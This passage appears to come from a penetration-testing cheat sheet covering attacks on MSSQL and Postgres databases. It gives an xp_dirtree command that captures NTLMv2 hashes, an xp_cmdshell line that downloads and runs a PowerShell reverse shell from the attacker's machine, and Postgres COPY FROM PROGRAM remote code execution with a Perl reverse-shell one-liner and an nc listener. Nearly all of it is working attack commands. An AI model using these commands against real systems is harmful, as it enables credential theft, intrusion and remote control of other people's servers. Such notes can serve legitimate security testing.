 On attacking machine
```
SQL> EXEC MASTER.sys.xp_dirtree '\\[victim_ip]\some_test'
```

After this step on localmachine we should get NTLMv2 hash 

- Example Revershell for xp_cmdshell
```
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://[your_local_ip/tcp_revershell.ps1") | powershell -noprofile'
```

--------------------------------------------------------------------------------------------------------------------------------

# Postgres

--------------------------------------------------------------------------------------------------------------------------------

-  Connect
```
psql -h [victim_ip] -U <username> -p [port]
psql -h [victim_ip] -U [username] -d [database]
```
- Enumerate file system
```
select pg_ls_dir('./')
```
- Postgres RCE method
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM '[Your command here]';
DELETE FROM cmd_exec; -> Delete current command

Example:
DROP TABLE IF EXIST cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[yours machine ip:port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

On machine over your control
nc -lnvp [port]
```
